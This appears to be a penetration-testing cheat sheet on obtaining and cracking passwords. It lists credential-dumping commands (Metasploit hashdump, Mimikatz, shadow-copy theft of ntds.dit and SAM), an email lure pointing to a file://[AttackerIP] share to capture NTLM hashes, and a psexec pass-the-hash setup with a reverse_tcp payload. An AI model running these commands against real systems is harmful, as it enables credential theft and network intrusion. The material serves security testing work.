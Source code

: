 ```yaml
---
title: Obtaining and Cracking Passwords
category: Post-Exploitation
order: 6
---
```


> **Windows** 

Metasploit Key logger for passwords | keyscan_start, keyscan_stop, keyscan_dump
PwDump | Pwdump drops files to disk and caught by AV <br> http://www.tarasco.org/security/pwdump_7/
Fgdump | fgdump drops files to disk and caught by AV <br> Source available to evade AV <br> http://foofus.net/goons/fizzgig/fgdump/downloads.htm#previous-version
Metasploit hashdump | meterpreter > hashdump (from memory) <br> meterpreter > run hashdump (hash and syskey from registry)
Mimikatz |  https://www.offensive-security.com/metasploit-unleashed/Mimikatz/ <br> https://www.christophertruncer.com/golden-ticket-generation/ <br> http://blog.opensecurityresearch.com/2012/06/using-mimikatz-to-dump-passwords.html <br> http://carnal0wnage.attackresearch.com/2013/10/dumping-domains-worth-of-passwords-with.html
Volume Shadow Copy Service (domain controller) |  Obtain from : <br> https://github.com/lanmaster53/ptscripts/blob/master/windows/vssown.vbs <br> https://github.com/MarkBaggett/MarkBaggett/blob/master/vssown.py  <br> <code> > cscript vssown.vbs /status or /start or /create /c <br> > copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\ntds\ntds.dit ntdsbackup.dit <br> > copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\system32\config\SYSTEM systembackup.bak <br> > copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\system32\config\SAM sambackup.bak <br> Analyze with http://csabarta.com/downloads/ntds_dump_hash.zip
Sniff (Kannan, ntlm, ms kerberos) | E-mail with link: <br> file://[AttackerIP]/[AttackerShare] <br> Sniff the traffic between victim and client for challenge and response"

> **Linux**

/etc/passwd and /etc/shadow

> **Password Lists**

Password Lists in Kali | /usr/share/wordlists/
Tailor Password list to policy | <code> > pw-inspector [-i FILE] [-o FILE] [-m MINLEN] [-M MAXLEN] [-c MINSETS] -l -u -n -p –s  <br> > pw-inspector -i /usr/share/wordlists/nmap.lst -o /root/passes.txt -m 6 -M 1 </code>
Combine Word Lists | <code> > cat wordlist.txt <wordlist2.txt....> | sort | uniq > dictionary.txt </code>
Word List from Website | <code> > mkdir /tmp/source <br> > cd /tmp/source <br> > wget -r -l [Page Depth] [target_website] <br> > cd .. <br> grep -h -r """" source | tr '[:space:]' '\n' | sort | uniq >wordlist.lst <br> > grep -v '<' wordlist.lst > newlist.lst </code>
Password Lists | https://downloads.skullsecurity.org/passwords/
Weakpass | https://weakpass.com/wordlist/online



>**John**

View Cracked Passwords | ./john --show [password file]
Pause a session | CTRL-C
Kill a session | CTRL-C twice quickly
Restore a session | ./john --restore
Current Status | any key
Customize Session based on password policy (e.g., length) | edit john.conf (Linux) and john.ini (windows)
Combine Shadow and passwd | ./unshadow passwd_copy shadow_copy > combined.txt
Password length - Customization | MinLen and MaxLen

>**Cain**

Word List location | C:\Program file\Cain\Wordlist\Wordlist.txt
Password Dictionary restarts at last point | Right-Click the dictionary-> select Reset initial file position

>**Pass the Hash**

Privs Required | May require RID 500 account due to patch 
Windows credential editor | www.ampliasecurity.com/research
Metasploit psexec | use exploit/windows/smb/psexec <br> set RHOST [victim] <br> set PAYLOAD windows/meterpreter/reverse_tcp <br> set SMBUser [admin_name] <br> set SMBPass [admin_hash] <br> exploit
Nmap nse smb  | tbd


> **Tools**

Rainbow Tables | Ophcrack <br> http://project-rainbowcrack.com <br> http://souceforce.net/projects/ophcrack <br> http://lasecwww.epfl.ch/~oechslin/projects/ophcrack
GPU | MD5 Cracker: http://bvernoux.free.fr/md5/index.php <br> oclHashcat  and Hashcat (same project) <br> CUDA-multiforcer <br> aircrack-ng-CUDA <br> pyrit (WPA and WPA w/ CoWPAtty)
CPU | John and Cain
Hashes.org | https://hashes.org/

